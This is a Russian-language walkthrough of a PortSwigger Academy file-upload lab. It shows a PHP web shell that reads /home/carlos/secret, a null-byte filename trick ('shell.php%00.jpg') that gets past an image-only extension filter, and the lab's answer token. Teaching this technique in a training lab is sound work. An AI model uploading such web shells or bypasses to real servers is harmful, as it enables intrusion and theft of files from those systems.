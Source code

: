 Залогинимся под `wiener:peter` и перейдем в личный кабинет. Далее загрузим любой `.png` файл в качестве аватара, и найдем запрос в `Proxy` -> `HTTP history` и отправим его в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/5.%20Web%20shell%20upload%20via%20obfuscated%20file%20extension/pics%20for%20walktrough/1.png)
Следующим шагом вырежем из запроса выше всю внутренность `.png` файла, а вместо нее подставим внутренность шелла `<?php echo file_get_contents('/home/carlos/secret'); ?>` так же изменив имя и расшинение загружаемого файла на `shell.php`
```
POST /my-account/avatar
...
filename="shell.php"
...
<?php echo file_get_contents('/home/carlos/secret'); ?>
...
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/5.%20Web%20shell%20upload%20via%20obfuscated%20file%20extension/pics%20for%20walktrough/2.png)
В ответ мы увидим `Sorry, only JPG & PNG files are`

Поробуем обойти данное ограничение. Добавим в расширение файла пустой байт `%00` с расширением `.jpg`, чтобы при обработке сервером был реализован следующий сценарий `shell.php%00.jpg` -> `shell.php .jpg` -> `shell.php`
```
POST /my-account/avatar
...
filename="shell.php%00.jpg"
...
<?php echo file_get_contents('/home/carlos/secret'); ?>
...
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/5.%20Web%20shell%20upload%20via%20obfuscated%20file%20extension/pics%20for%20walktrough/3.png)
Так как наш шелл успешно загрузился. Обратимся к нему, и заставим его отработать, получив секрет УЗ `carlos`
```
GET /files/avatars/shell.php
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/8.%20File%20upload%20vulnerabilities/5.%20Web%20shell%20upload%20via%20obfuscated%20file%20extension/pics%20for%20walktrough/4.png)
В качетсве ответа на задание сдадим - `zNvv9zXczO5EQkhy5mJXUWZKX8Z8xcJh` и получим уведомление об успешно выполненной лабораторной работе
